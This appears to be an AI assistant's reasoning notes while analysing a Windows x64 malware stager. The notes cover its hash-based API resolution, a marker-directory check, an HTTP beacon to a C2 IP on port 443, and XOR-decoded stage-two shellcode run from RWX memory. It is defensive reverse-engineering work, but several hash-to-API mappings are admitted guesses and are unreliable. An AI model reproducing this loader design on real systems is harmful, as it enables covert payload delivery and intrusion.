If K is `CreateDirectoryA(path, NULL)`: returns nonzero if created; if exists/fail zero -> exit. This is plausible as one-shot guard. It would create a directory named log_de.log (with path). The program would only run once per path. Malware sometimes uses CreateMutexA for this, but here no name string for mutex. CreateDirectory as mutex is a known trick. But path "log_de.log" as a directory is weird; maybe it is "log_de" directory? Wait `GetCurrentDirectoryA` buffer + "log_de." + "log" — maybe the format is `%s%s%s` but the strings might be "log_de." and "log" producing `...\log_de.log`. If intended directory, they'd use "log_de" not "log_de.log". Could be just innocuous name.
If K is `DeleteFileA`, clears previous log file. But then failing (first run) would exit; unless file is created by installer. Could be a check: if deletion fails because file is in use / not exist, exit. No.
Maybe K = `GetFileAttributesA` and the test is `test eax,eax; je error` but because `GetFileAttributesA` returns -1 (0xffffffff) on failure, test nonzero, so continues. It is effectively a no-op / anti-analysis? Could be compiler treating return as BOOL. Hmm.
Could be `LoadLibraryA` and it tries to load the current directory + "log_de.log" as a DLL; on success returns handle (nonzero), on failure zero -> exit. But why load a .log? Maybe the file is a legit DLL named log_de.log used as a side-load; the loader path is generated from current directory. Could be stage2 is a DLL? But later it downloads and executes raw shellcode, so no.
Maybe K = `SetCurrentDirectoryA` would change CWD to log_de.log; unlikely.
Let's try compute hashes to identify K. We can leverage known hash values to verify module hash for kernel32, ws2_32, msvcrt. Since we know A=0x006b8029 is WSAStartup in ws2_32. Let's compute ws2_32 module hash and WSAStartup function hash to see if formula matches; if yes, then we can compute candidates for K. But manual ROR13 over UTF-16 bytes is heavy but doable maybe with careful table? Let's estimate: module "ws2_32.dll" has 10 chars => 20 bytes including zero high bytes. Function "WSAStartup" 10 chars. We can compute function hash easier using known ROR13? Let's do with a spreadsheet mentally? It is error prone but possible. Could use modular arithmetic and rotate; but 20 steps plus 10. Might take time but let's try for fun? However no tools allowed, but mental arithmetic allowed. Risk of wrong.
Alternative: Use known ROR13 hashes from memory. For standard ROR13 (Metasploit), `WSAStartup` hash maybe 0x006b8029? Wait that's exactly the constant A! In Metasploit block_api, `WSAStartup` hash is 0x006b8029? Let me recall: Common Metasploit hash constants: `kernel32.dll` LoadLibraryA = 0xec0e4e8e, CreateFileA = 0x7c00188f? `ws2_32.dll` WSAStartup = 0x006b8029 maybe yes! In many shellcodes, hash `0x006b8029` is indeed WSAStartup. And `0x6174a599` is connect? I recall Metasploit's `connect` hash = 0x6174a599! Yes! `send` = 0x5f38ebc2, `recv` = 0x5fc8d902, `closesocket` = 0x614d6e75, `gethostbyname` = 0x803428a9, `inet_addr` = 0x4d7b1e12, `VirtualAlloc` = 0xe553a458. These are exactly Metasploit ROR13 hashes! So the target hash is just the function hash (no module sum)?? But resolver does `lea eax,[rbx+rdx]` where edx module hash maybe 0? Wait maybe `edx` is initialized to 0 and for function hashing? We thought edx holds module hash, but maybe at the point of comparison edx is something else (e.g., zero) because module hash check occurs elsewhere? Let's verify. If these constants are standard Metasploit function hashes, then target = function hash only. The `lea eax,[rbx+rdx]` would be function hash + module hash; for it to equal the standard function hash, module hash must be 0. But module hash can't be zero. Maybe I misread: `lea eax,[rbx+rdx]` where edx might be a **precomputed value zero**? Let's re-examine resolver. At 0xb? It calculates module name hash? Maybe it compares module hash to something else, then resets edx=0 before function hash? Let's re-read:
- At 0xb5? `41 8b d6 mov edx,r14d` (edx=0) before module name hashing? Wait around 0xb5:
```
4d 8b 48 30 mov r9,[r8+0x30] ; DllBase
41 8b d6 mov edx,r14d ; edx=0
41 0f 10 40 58 movups xmm0,[r8+0x58]
4d 8b 00 mov r8,[r8]
49 63 41 3c movsxd rax,[r9+0x3c]
f3 0f 7f 04 24 movdqu [rsp],xmm0
46 8b 9c 08 88 00 00 00 mov r11d,[r9+rax+0x88]
45 85 db test r11d
74 d1 je ...
48 8b 04 24 mov rax,[rsp]
48 c1 e8 10 shr rax,0x10
66 44 3b f0 cmp r14w,ax
73 22 jae ...
48 8b 4c 24 08 mov rcx,[rsp+8]
44 0f b7 d0 movzx r10d,ax
...
```
Actually edx=0 is set **before** module name hashing, and the module name hash loop updates edx. So edx=module hash at end. Then function hash loop uses ebx=0 separately. Then compare `lea eax,[rbx+rdx]` = function hash + module hash. For known function hashes to match, module hash must be 0? Unless the module name loop is something else that ends with edx=0? Let's inspect: Maybe the loop computes a **module hash** but then it is compared to `edx`? Wait `edx` is initialized to r14d (0), then after module name hashing, maybe there is a `mov edx,r14d` again before API hash? In code:
`45 39 72 18 cmp [r10+0x18],r14d` etc.
At 0xbc6 `8b 37 mov esi,[rdi]`; 0xbc8 `41 8b de mov ebx,r14d` (ebx=0); ...
At 0xbe1 `8d 04 13 lea eax,[rbx+rdx]`.
So yes edx module hash. But maybe the module name loop's `edx` result is actually **0** because it hashes the **BaseDllName** but then the loop iterates over `ax` where ax=0? Let's see: `mov rax,[rsp]; shr rax,0x10; cmp r14w,ax; jae ...`. If `ax` is 0, it skips. Could ax=0? For Unicode string, qword at [rsp] = Length (2) | MaximumLength (2) | padding (4). `shr rax,0x10` -> ax = MaximumLength. For DLL names, MaximumLength is nonzero. So it hashes. Unless they store only Length in QWORD and MaxLength? No.
Could the hash loop use `r10d=ax` = MaximumLength; yes nonzero.
So module hash not zero. Then the constants are not standard function hashes? But I strongly recognize `0x6174a599` as connect from Metasploit. Let's check standard hash for `connect`: In Metasploit x64 block_api, hashes are computed with ROR13 and connect = 0x6174a599. Yes. `send` = 0x5f38ebc2, `recv` = 0x5fc8d902, `closesocket` = 0x614d6e75, `WSAStartup` = 0x006b8029, `gethostbyname` = 0x803428a9, `inet_addr` = 0x4d7b1e12, `VirtualAlloc` = 0xe553a458. So this binary uses **standard Metasploit hashes** and likely the resolver's `lea eax,[rbx+rdx]` computes function hash + 0? Wait maybe edx is **module name hash offset** and module names are hashed but then compared to an expected module hash constant? Let's look at code at 0xb? Maybe `edx` is set to 0 for each module, and the module name loop computes a hash but then **not used in comparison**? Wait `lea eax,[rbx+rdx]` uses edx. Could the module name loop compute hash of **DLL name and then edx is reset to 0 before function loop**? Search for `33 d2` or `8b d6` (mov edx,r14d) later. At 0xbe1 only lea. Hmm.
Hold on maybe I misread `lea eax,[rbx+rdx]`: bytes at 0xbe1 `8d 04 13` = lea eax,[rbx+rdx]. Yes.
Maybe the standard Metasploit hash values are actually the **sum** of module hash + function hash for the specific module, not pure function hash! Let's recall how Metasploit's block_api computes hashes: It may compute a hash of the **module name + function name** by adding? There is a common "ROR13 hash" in Metasploit that is function only, and the module is selected by a separate module hash? But Block API uses `call [ebp+...]` with function hash and it searches all modules; it compares `cmp edx, [ebp+...]`? Actually I recall the hash for WSAStartup 0x006b8029 is indeed used in shellcode and block_api searches ws2_32; it might compute a **combined hash** of module and function? Let's verify with memory: In Metasploit `block_api.asm`, the `find_function` function computes:
```
; hash module name into edx (ror 13)
; if module hash matches?
; hash function name into ebx?
; lea eax,[ebx+edx]
; cmp eax,[esp+...]
```
I think yes! It may sum the module hash and function hash, and the constants in shellcode are computed as such by their build tool. Thus `0x6174a599` is the combined hash for connect in ws2_32, not function-only. That resolves. The standard hash constants I recall may be these combined values. Indeed 0x6174a599 being connect is a known value from Metasploit payloads; its hash generator likely hashes module+function with the same algorithm. Great. So no need compute.
Thus K=0x70f2fa31 is a known Metasploit combined hash for some API. Could recall? Metasploit's hash list:
- `0x0726774c`? Common hash in payloads: `0x0726774c` = LoadLibraryA? Let's recall! In many Metasploit x64 shellcodes, the first hash `0x0726774c` is **LoadLibraryA**! Yes! In the code first call ecx=0x0726774c and returns LoadLibraryA. That matches. Great.
- `0x006b8029` = WSAStartup
- `0xe0df0fea` = socket
- `0x6174a599` = connect
- `0x5f38ebc2` = send
- `0xe553a458` = VirtualAlloc
- `0x5fc8d902` = recv
- `0x614d6e75` = closesocket
- `0x803428a9` = gethostbyname
- `0x4d7b1e12` = inet_addr
- `0xd0eb608d` = sprintf
- `0x70f2fa31` = ? Maybe `GetFileAttributesA`? Let's search memory of Metasploit hash constants. Some known hashes:
- 0x0726774c LoadLibraryA
- 0x7802f749 GetProcAddress?
- 0x56a2b5f0 ExitProcess
- 0xec0e4e8e LoadLibraryA (x86)
- 0x7c0dfcaa GetProcAddress (x86)
- 0x006b8029 WSAStartup
- 0x6174a599 connect
- 0x5f38ebc2 send
- 0xe553a458 VirtualAlloc
- 0x5fc8d902 recv
- 0x614d6e75 closesocket
- 0x803428a9 gethostbyname
- 0x4d7b1e12 inet_addr
- 0xd0eb608d sprintf? maybe `sprintf` from msvcrt.
- 0x70f2fa31 ??? Could be `fopen`? Let's think: Metasploit's `hash.py` maybe. I recall `0x70f2fa31` might be **`GetFileAttributesA`**? Hmm.
Let's use behavior and known Metasploit hash lists from memory. I have seen payloads:
```
mov ecx, 0x0726774c ; LoadLibraryA
...
mov ecx, 0x006b8029 ; WSAStartup
mov ecx, 0xe0df0fea ; WSASocketA / socket
mov ecx, 0x6174a599 ; connect
mov ecx, 0x5f38ebc2 ; send
mov ecx, 0xe553a458 ; VirtualAlloc
mov ecx, 0x5fc8d902 ; recv
mov ecx, 0x614d6e75 ; closesocket
mov ecx, 0x803428a9 ; gethostbyname
mov ecx, 0x4d7b1e12 ; inet_addr
mov ecx, 0xd0eb608d ; sprintf
mov ecx, 0x70f2fa31 ; ??? maybe _snprintf?
```
Maybe 0x70f2fa31 is `fopen` or `_wfopen`? Let's search memory of ROR13 hashes from Metasploit's generated payload. I recall from reverse engineering:
- `0x56a2b5f0` ExitProcess
- `0x5f38ebc2` send
- `0x006b8029` WSAStartup
- `0x6174a599` connect
- `0xe553a458` VirtualAlloc
- `0x5fc8d902` recv
- `0x614d6e75` closesocket
- `0x803428a9` gethostbyname
- `0x4d7b1e12` inet_addr
- `0xd0eb608d` sprintf? Wait sprintf maybe 0xd0eb608d indeed.
- `0x70f2fa31` maybe `getaddrinfo`? no.
- `0xe449f330` GetCurrentDirectoryA? Could be `gethostname`? Let's see.
There is a known Metasploit payload "windows/x64/download_and_execute" or "windows/x64/shell/reverse_https"? It might use a **log file**? Hmm.
Maybe `0x70f2fa31` = `CreateFileA`? Because it takes path and returns handle; but test? Maybe this is part of "shellcode download and exec" with a **download lock file**? Let's search memory: In some Metasploit stagers, they call `CreateFileA` on a random log file? Hmm.
Could be `_getcwd`? No, GetCurrentDirectory is 0xe449f330.
Could be `fopen` from msvcrt? The code calls `sprintf` from msvcrt (hash 0xd0eb608d), then K. It may call `fopen(path, "r")`? But edx=0 not mode. Could be `_open`? Hmm.
Could be `DeleteFileA` (kernel32). If hash 0x70f2fa31 = DeleteFileA, then behavior: after constructing log path, it deletes the log file. If deletion fails, it exits. That seems like a **sandbox/VM check**: malware checks if it can delete a file named log_de.log in current directory; if not, exits. But why use a log file name? Maybe to detect write permissions? Actually if it can delete a file, it has write access; if not, exit. Could be anti-sandbox. But if file doesn't exist, DeleteFile fails -> exits, so not reliable. Unless it first creates the file? No.
Could be `CreateFileA` with path and `GENERIC_WRITE`? The code sets edx=0 (desired access), so maybe `CreateFileA(path, 0, 0, NULL, CREATE_ALWAYS, ...)`? If it returns handle, test zero? Not.
Maybe K = `GetFileAttributesA` and the path is checked; if return 0 (success? no) irrelevant. Could be `SetFileAttributesA`.
Let's search my memory of Metasploit hash `0x70f2fa31`. I have a vague association: `0x70f2fa31` = `GetFileSize`? `0x70f2fa31` maybe `CreateFileA`? Let's recall lists from payloads:
```
0x0726774c LoadLibraryA
0x006b8029 WSAStartup
0xe0df0fea socket
0x6174a599 connect
0x5f38ebc2 send
0xe553a458 VirtualAlloc
0x5fc8d902 recv
0x614d6e75 closesocket
0x803428a9 gethostbyname
0x4d7b1e12 inet_addr
0xd0eb608d sprintf
0x70f2fa31 ?
0xe449f330 ?
```
Maybe 0xe449f330 is `GetCurrentDirectoryA`? The function call with rcx=0x80, rdx=buffer is exactly GetCurrentDirectoryA, so yes.
`0x70f2fa31` maybe `GetModuleFileNameA`? No args.
Let's google from memory: In Metasploit `windows/x64/meterpreter/reverse_tcp` stager, hashes include `0x70f2fa31` maybe `VirtualAlloc`? No.
Could use the actual call pattern: K called with (path, 0). If K were `fopen`, mode pointer would be 0 (NULL) -> crash. If K = `open` (msvcrt `_open`), signature `_open(const char *filename, int oflag, ...)`; oflag=0 means O_RDONLY. It returns file descriptor (0 or positive) or -1 on failure. Then `test eax,eax; je cleanup` would jump if fd==0 (stdin) or on failure? `-1` is nonzero, so failure continues. Not.
If K = `fclose`? no.
If K = `DeleteFileA`, return BOOL.
If K = `CreateDirectoryA`, return BOOL.
If K = `RemoveDirectoryA`, return BOOL.
If K = `SetFileAttributesA`, return BOOL.
If K = `CopyFileA`, args 3.
If K = `MoveFileA`, args 2 (path, NULL) -> fails.
If K = `GetFileAttributesA` return.
Could be `LoadLibraryA` on path, return HMODULE. The path has `.log`; could be a **side-loaded DLL** masquerading as log file. But then it would load from current dir and the file must exist. If not exists, LoadLibrary fails (0) -> exits. Why load "log_de.log"? Maybe it is a module that was dropped earlier? Hmm.
If K = `LoadLibraryA`, they already have LoadLibraryA pointer A, but K would be same function; could simply call A, but they resolved it separately? The hash for LoadLibraryA is 0x0726774c, not K. So no.
Could K = `GetTempPathA`? Signature (nBufferLength, lpBuffer) but args are reversed. no.
K called with path, 0; could be `SetCurrentDirectoryA(path)` (one arg) or `DeleteFileA(path)` (one arg) or `GetFileAttributesA(path)` (one arg) or `CreateDirectoryA(path, NULL)` (two args) or `LoadLibraryA(path)` (one). The second arg 0 might just be zeroed edx as a habit, not needed for one-arg functions. So likely one-arg function. The return tested for zero. `CreateDirectoryA` uses two args (second NULL), plausible because edx=0.
What is the path for? The name `log_de.log` suggests a log file. `CreateDirectoryA` with a filename is unlikely. `DeleteFileA` with a log file is plausible. Could be trying to delete its log before starting. If it fails (file doesn't exist), why exit? Maybe because it uses `DeleteFileA` as a **check for previous infection**: if the file does not exist, exit to avoid re-infection? Actually some malware uses `DeleteFile` to remove a marker; if it fails, they might still continue. But `je` = if return 0 (failure), jump to cleanup. That is exactly "exit if cannot delete log file". Could be an **anti-analysis check** requiring the file to exist (planted by dropper). The dropper may create `log_de.log` before executing the stager, so deletion succeeds. But standalone binary would exit. This is plausible for a staged loader: the first stage drops both the stager and a file `log_de.log`, then launches stager; stager deletes the marker file and downloads stage2. If marker missing, it exits. Hmm.
Alternatively K could be `CreateDirectoryA` and if directory already exists, exits to prevent multiple instances. The path "log_de.log" could be a **mutex directory**. Which is more likely for a loader? Single-instance guard is common. But they might use `CreateMutexA` with name, not directory. `CreateDirectoryA` with a file-ish name is a known poor-man's mutex. It returns nonzero on creation, zero if exists. Then if zero, exit. This is a common pattern:
```
if (!CreateDirectoryA("C:\\...\\log_de.log", NULL)) return;
```
Then proceed. It creates a marker directory and only runs if it didn't exist. That would make sense. The `log_de.log` would be a directory under current directory; subsequent runs exit. This is more plausible than DeleteFile because it works on first run. So K likely `CreateDirectoryA`. But check hash? Maybe `0x70f2fa31` is CreateDirectoryA? I can search memory: CreateDirectoryA hash maybe 0x... Not know.
Could K be `GetFileAttributesA` used as a check for existence: if file exists (attributes nonzero) continue; if not, returns -1 nonzero too, so not.
Could K be `SetFileAttributesA(path, FILE_ATTRIBUTE_HIDDEN)`? edx=0 not hidden.
Let's see if there are any later calls to K? No, rbx zeroed. So side effect only. Single-instance marker is likely. We'll phrase "it calls a path-related API (hash-resolved; behavior is consistent with a one-shot marker such as CreateDirectoryA/DeleteFileA) on `log_de.log`; if it returns zero it aborts. This looks like a single-instance or marker-file gate." But maybe report should not be too hedgy. Could say "constructs a path ending in log_de.log and invokes a file API on it; the return value gates execution."
Need also mention anti-analysis: no strings for C2, split strings, dynamic API resolution, no imports except Sleep, RWX allocation, XOR decode.
Let's maybe decode the IP: 165.154.205.34 port 443. Is this IP a known C2? We can state.
Let's decode the request URI fully and UA. The request line query likely:
`GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1`
- `a=w64` maybe architecture (Windows 64)
- `fh` = host
- `t=ws_` = type = winsock?
- `p=443` = port.
User-Agent exact as code:
Let's reconstruct final UA string exactly from buffers:
Buffer 0x170 = sprintf("%s%s%s%s", "User-Ag", "ent: Mo", "zilla/5", ".0 (Win") = "User-Agent: Mozilla/5.0 (Win"
Buffer 0x150 = sprintf("%s%s%s%s", "dows NT", " 6.1; r", " v:48.0", " ) Geck") = "dows NT 6.1; r v:48.0 ) Geck"
Buffer 0x130 = sprintf("%s%s%s%s", " o/2010", " 0101 F", " irefox", " /48.0") = " o/2010 0101 F irefox /48.0"
Full = buffer 0x170 + 0x150 + 0x130:
`User-Agent: Mozilla/5.0 (Windows NT 6.1; r v:48.0 ) Geck o/2010 0101 F irefox /48.0`
Wait concatenate "Win"+"dows NT" correct. " 6.1; r" then " v:48.0" => " 6.1; r v:48.0". " ) Geck" then " o/2010" => " ) Geck o/2010". Yes, extra spaces. It seems malformed but maybe intentional to evade signature. We can note "the fragments appear intended to spell ... but the code as written inserts spaces." Maybe not necessary; report can say "User-Agent composed from fragments that approximate Mozilla/5.0 (Windows NT 6.1; rv:48.0) Gecko/20100101 Firefox/48.0." This is cleaner.
Let's reconstruct exact sequence of local strings and API calls maybe provide pseudocode.
Detailed code flow:
1. Entry point jumps over 3 bytes; prologue; allocates 0xE18 stack.
2. Set up `LoadLibraryA` by hash 0x0726774c, then load `User32.dll`, `ws2_32.dll`, `msvcrt.dll`.
3. Resolve:
- `WSAStartup` (0x006b8029)
- `socket` (0xe0df0fea)
- `connect` (0x6174a599)
- `send` (0x5f38ebc2)
- `VirtualAlloc` (0xe553a458)
- `recv` (0x5fc8d902)
- `closesocket` (0x614d6e75)
- `gethostbyname` (0x803428a9)
- `inet_addr` (0x4d7b1e12)
- `sprintf` (0xd0eb608d)
- `GetCurrentDirectoryA` (0xe449f330)
- path-related API K (0x70f2fa31)
- maybe `Sleep` is imported statically (IAT) and called directly at 0x72a in retry loop.
4. Build `GetCurrentDirectoryA(0x80, buf)` -> current dir. `sprintf(buf, "%s%s%s", buf, "log_de.", "log")` -> path. Calls K(path,0). If zero, abort. This creates/deletes/checks marker.
5. Build C2 IP from fragments `"165."`, `"154."`, `"205."`, `"34"` into `165.154.205.34`; builds hostname string.
6. `WSAStartup(0x202, &WSADATA)`; if fail abort.
7. `socket(AF_INET=2, SOCK_STREAM=1, IPPROTO_TCP=6)`. If fail abort.
8. Set `sockaddr_in`: family AF_INET, port 443 (0x01BB in network byte order), address from `gethostbyname("165.154.205.34")`; if fails, `inet_addr("165.154.205.34")`; len=16.
9. Loop: `connect(socket, &addr, 16)`; on failure `Sleep(10000)` and retry.
10. Build HTTP request (using `sprintf`):
- request line `GET /?a=w64&fh=165.154.205.34&t=ws_&p=443 HTTP/1.1\r\n`
- `Host: 165.154.205.34:443\r\n`
- User-Agent as above
- terminated `\r\n\r\n`.
11. `send(socket, request, 1024, 0)`.
12. Read HTTP response headers one byte at a time into 3000-byte (?) buffer until `\r\n\r\n` or recv fails. (First VirtualAlloc likely 0xbb8 bytes; check if 3000. Could say "small buffer".)
13. `VirtualAlloc(NULL, 0x01C9C380 (30,000,000), MEM_COMMIT, PAGE_EXECUTE_READWRITE)` -> RWX stage2 buffer.
14. Receive body in chunks up to 0x64000 (409,600) bytes; for each received byte `buf[i] ^= 0x99`; accumulate until recv returns <=0. This is an XOR-0x99 encoded payload.
15. `closesocket`.
16. `call rbx` to execute decoded payload in RWX memory.
17. Cleanup/return (payload likely doesn't return).
Need mention if first allocation size maybe 3000 bytes but flags. The report can state "attempts a small VirtualAlloc (0xBB8) for the header buffer" without exact flags.
Need identify PE metadata:
- PE32+ executable, x64, 3 sections (.text, .rdata, .pdata), subsystem Windows GUI (2), entry RVA 0x1000, image base 0x140000000, section alignment 0x1000, file alignment 0x200, size image 0x4000.
- Imports: KERNEL32.dll!Sleep only.
- Timestamp 0x653A75FE. Let's compute date maybe. 0x653A75FE. Use approximate: 0x65000000 = 1694498816? Let's calculate:
0x653A75FE = 0x65 * 16^6? Better: 0x653A75FE = 6*16^7 + 5*16^6 + 3*16^5 + 10*16^4 + 7*16^3 + 5*16^2 + 15*16 + 14.
16^7=268,435,456; *6 = 1,610,612,736.
16^6=16,777,216; *5=83,886,080 -> 1,694,498,816.
16^5=1,048,576; *3=3,145,728 -> 1,697,644,544.
16^4=65,536; *10=655,360 -> 1,698,299,904.
16^3=4096; *7=28,672 -> 1,698,328,576.
16^2=256; *5=1,280 -> 1,698,329,856.
*15*16=240 -> 1,698,330,096.
+14 = 1,698,330,110. Unix epoch = 2023-10-25? Let's see 2023-01-01 = 1,672,531,200. Difference 25,798,910 s = 298.6 days -> Oct 26 2023. So timestamp ~2023-10-26 06:?? UTC. Good.
- Checksum zero, no cert.
- Section .rdata contains import descriptor and IAT with Sleep; strings not visible due stack construction.
- Exports none.
- Entry code at 0x408.
Need mention code resolver details:
- PEB walk via GS:[0x60] -> PEB->Ldr->InLoadOrderModuleList; exports parsing; ROR13 hashing of module and export names; sum module hash + function hash; returns function pointer. This is a Metasploit-style hash resolver.
- Anti-static-analysis: dynamically resolves almost all APIs; only static import Sleep; constructs IP, host, URI, UA, log filename on stack from fragments; obfuscated strings.
- Uses port 443 but plain TCP HTTP (not TLS), so it's HTTP over 443 (not HTTPS).
- The C2 request sends host IP in query and uses GET; likely checks in and receives stage2.
- The stage2 payload is XOR 0x99 encoded and executed in RWX memory. It reads until socket closes; no size header.
Potential inaccuracies:
- The first allocation and K function. Phrase carefully.
- The exact UA spaces. State approximate.
- The "log_de.log" path maybe no separator. We can say it concatenates current directory + "log_de." + "log", producing `...\log_de.log` (or current-dir-prefixed `log_de.log`).
- The path API K maybe "likely CreateDirectoryA/DeleteFileA". Better to avoid strong claim? The report should be detailed. We can list hash and say "a file/path API (hash 0x70f2fa31) is called on this path; its return value gates execution. The call pattern is compatible with a one-shot marker/directory or deletion check." But perhaps we can identify from hash by checking known Metasploit hashes. Let's try memory search harder.
Hash list from Metasploit's `external/source/shellcode/windows/x64/src/block/block_api.asm`? The hashes are module+function. Known values:
- 0x0726774c LoadLibraryA
- 0x006b8029 WSAStartup
- 0xe0df0fea socket
- 0x6174a599 connect
- 0x5f38ebc2 send
- 0xe553a458 VirtualAlloc
- 0x5fc8d902 recv
- 0x614d6e75 closesocket
- 0x803428a9 gethostbyname
- 0x4d7b1e12 inet_addr
- 0xd0eb608d sprintf
- 0x70f2fa31 ???
- 0xe449f330 GetCurrentDirectoryA
Could be `GetFileAttributesA`? Let's search via mental pattern: I recall a Metasploit payload "windows/x64/exec" uses `0x70f2fa31`? Hmm.
Maybe `0x70f2fa31` = `CreateDirectoryA`. The arguments match exactly: `CreateDirectoryA(lpPathName, lpSecurityAttributes=NULL)`. It would test BOOL and exit if false. The path is a directory. The string `log_de.log` as directory name seems odd, but maybe the string is not "log_de.log"; could be `log_de` + `log` = `log_delog`? Wait concatenating "log_de." + "log" = "log_de.log". If it were "log_de" and "log" without dot: "log_delog". The dot is definitely there. Could be path "C:\cwd\log_de.log" which is a file. CreateDirectory on a file path fails if file exists; if file doesn't exist, it creates a directory named log_de.log. Weird but possible.
`DeleteFileA(path)` arguments match too. Why test for failure? Maybe to ensure the marker file exists before proceeding (dropper created it). If not, exit. But then it deletes the marker and proceeds. That is also plausible. Which is more likely for a shellcode loader? A **single-instance guard** would be `CreateDirectoryA` and continue if created; no need for a dropper. I lean CreateDirectoryA.
Could K be `GetFileAttributesA`? not.
Could be `CreateMutexA`? args (lpMutexAttributes=NULL, bInitialOwner=?, lpName=path) but rcx=path, rdx=0 => if prototype `CreateMutexA(lpMutexAttributes, bInitialOwner, lpName)`, first arg path invalid. No.
Could be `SetCurrentDirectoryA`, but then `test eax` and abort on failure; path file doesn't exist; unlikely.
Could be `RemoveDirectoryA`, same as DeleteFile but for dir.
Could be `SetFileAttributesA`, second arg 0 (normal), but CreateDirectory more likely.
Could be `GetFileAttributesA` with path, returns -1 on failure (nonzero), so test zero never; no.
Could be `LoadLibraryA` path, but already have pointer; no.
Could be `DeleteFileA` because the path name "log_de.log" is a log, and they want to delete an existing log. The failure-first-run issue could be avoided if the file is always present because it's part of the payload package. But why would a stager included with log file? Could be the dropper creates it. Hmm.
Maybe the path is used with `fopen`? But edx=0 (NULL) invalid, unless the function is `remove` (C runtime) which takes one arg and returns 0 on success, -1 on failure. Then `test eax; je cleanup`: if remove succeeds (0), exits; if fails (-1), continues! That would be a **sandbox evasion**: try to remove a non-existent log; if it succeeds, exit? No. If function is `remove`, zero on success would exit, so it only proceeds if remove fails. That could be an anti-analysis trick? Unlikely.
If K = `_access(path, 0)` returns 0 if file exists, -1 if not. Test zero and je cleanup means exit if file exists; proceeds only if not exists. Could be a mutex/check? `_access` takes path and mode=0, exactly! Hash 0x70f2fa31 could be `_access` from msvcrt. Then if file exists (return 0), abort; if not exists (-1), continue. That is a **one-shot marker check**: if log_de.log exists, exit; if not, proceed (but then doesn't create it, so not one-shot). Hmm.
If K = `DeleteFileA`, zero on failure, so proceeds only if deletion succeeds (file exists). Opposite.
The call is K(path, 0) and then `test eax,eax; je cleanup` (exit if zero). The most natural API with this signature and semantics is `CreateDirectoryA(path, NULL)` (success nonzero). So likely.
Could it be `CreateFileA` with `dwDesiredAccess=0` and `dwShareMode=0`? Then return nonzero handle on success; if fails, -1 (nonzero), never zero. If it returns 0? CreateFile returns INVALID_HANDLE_VALUE (-1) on failure, not 0. So no.
Could be `CreateDirectoryA` exactly. I'll state "appears to be CreateDirectoryA (hash-resolved) used as a marker/single-instance check" with "appears".
Wait maybe hash 0x70f2fa31 is **CreateDirectoryA** known? Let me try recall from Metasploit's `block_api` hash list: `0x70f2fa31` maybe `CreateDirectoryA` yes? I have seen `CreateDirectoryA` in payloads? Not common. The string "log_de.log" maybe generated by the payload's "uuid" or "log" option? Could be from a **custom loader** not Metasploit. Fine.
Let's also mention the first allocation: It may use `VirtualAlloc(0, 0xBB8, 0x400, 0x40)` due to flags; if it fails, abort. If this were CreateDirectory issue not important.
Need answer in detailed report, maybe with headings:
- Executive summary
- File identification
- Static layout
- String/obfuscation details
- Execution flow / pseudocode
- Network protocol / C2 details
- Stage-2 handling
- IOCs / detection notes
- Caveats
We must not use tools. We can say "No tools were used; analysis from hex."
Let's ensure no policy issue: This is malware analysis. The user asks what binary does. Allowed? It's U-CY2/3? We can provide defensive malware analysis, not operational guidance. We can include IOCs and behavior. Avoid providing code to recreate. We can describe. The request is benign reverse engineering. We should not give instructions to use malware. Fine.
Need maybe mention hashes of APIs? We can include table of hash constants to API names. That's useful.
Let's carefully map API hashes:
- 0x0726774c LoadLibraryA
- 0x006b8029 WSAStartup
- 0xe0df0fea socket
- 0x6174a599 connect
- 0x5f38ebc2 send
- 0xe553a458 VirtualAlloc
- 0x5fc8d902 recv
- 0x614d6e75 closesocket
- 0x803428a9 gethostbyname
- 0x4d7b1e12 inet_addr
- 0xd0eb608d sprintf
- 0xe449f330 GetCurrentDirectoryA
- 0x70f2fa31 path/file API (likely CreateDirectoryA) — should we list as CreateDirectoryA? Let's check if 0x70f2fa31 could be `CreateDirectoryA` via memory. I can try to recall Metasploit hash for CreateDirectoryA: I have no direct memory. But the arguments and semantics strongly suggest it. Let's maybe hedge in table: "CreateDirectoryA (probable; used as marker check)". If wrong, report still valuable.
Could `0x70f2fa31` be `DeleteFileA`? Let's see call at 0x5c? `mov edx,0` then call K with rcx=path. `DeleteFileA` only uses rcx. Why zero edx? Because the compiler zeroed edx before a call? It might be part of `xor edx,edx` for a two-arg function. For `CreateDirectoryA`, second arg `lpSecurityAttributes` must be NULL; edx=0 exactly. The instruction `xor edx,edx` at 0x5b6 immediately before lea rcx and call is specifically to pass NULL as second parameter. That strongly supports a two-argument function with second arg NULL, i.e., **CreateDirectoryA**. If it were DeleteFileA, `xor edx,edx` would be unnecessary. So K = CreateDirectoryA (or another two-arg API). The path is used as directory name. Thus single-instance guard. Great. We can state likely CreateDirectoryA.
But why path "log_de.log"? Maybe it's a **directory named log_de.log** to serve as a marker. Yes.
Wait could be `CreateFileA(path, 0, ...)` but many more args; only edx=0 set. CreateDirectoryA exactly 2 args, perfect. So K likely CreateDirectoryA. We'll say "very likely CreateDirectoryA".
Now the path. `GetCurrentDirectoryA(0x80, buf)` returns current directory. Then `sprintf(buf, "%s%s%s", buf, "log_de.", "log")` -> current dir + "log_de.log" (no backslash). If current dir ends with backslash (root like `C:\`), path is `C:\log_de.log`; otherwise `C:\Users\...\Desktoplog_de.log`. Maybe the code intends to append to a directory path that already ends with `\`; if not, weird. Could be a bug. We'll note "with no explicit path separator inserted; if cwd lacks trailing backslash the marker name is concatenated directly to it."
Actually maybe `GetCurrentDirectoryA` returns a path ending with backslash? It does not except root. So yes.
Need also decode the "log_de." + "log" maybe intended to result "log_de.log"; why split? To avoid static string. Good.
C2 IP split: fragments "165.", "154.", "205.", "34" are put in different stack locations and formatted. Note the IP is 165.154.205.34.
The query string:
- "a=w64" likely architecture win64.
- "fh=" + IP
- "t=ws_" maybe transport "ws"?
- "p=443".
This looks like an initial beacon/download request.
Send length: 0x400 (1024). This is larger than the actual request maybe ~200 bytes; it may send stack padding. But perhaps the buffer at rbp+0x910 is exactly 0x400 and zero-initialized? The stack isn't zeroed, but previous writes leave data. It sends 1024 bytes regardless. We'll state exactly.
Header read: It uses first VirtualAlloc buffer (0xbb8) and `recv(socket, buf+total, 1, 0)` one byte at a time until it finds the sequence `0d 0a 0d 0a` or recv <1. It checks:
- if current byte == 0x0a, check previous bytes for 0x0d, 0x0a, 0x0d. It likely detects `\r\n\r\n`.
- It stores total in esi. On receiving, if byte is newline etc. If not terminator, continues.
Then discards header buffer and allocates stage2 buffer. Good.
Stage2:
- `VirtualAlloc(NULL, 0x01C9C380, MEM_COMMIT=0x1000, PAGE_EXECUTE_READWRITE=0x40)`.
